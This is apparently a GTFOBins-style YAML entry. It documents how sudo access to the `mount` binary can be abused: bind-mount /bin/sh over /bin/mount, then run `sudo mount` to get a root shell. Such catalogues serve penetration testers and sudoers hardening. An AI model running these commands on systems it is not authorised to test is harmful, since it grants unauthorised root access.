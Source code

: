 functions:
  sudo:
    - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
      code: |
        sudo mount -o bind /bin/sh /bin/mount
        sudo mount
---
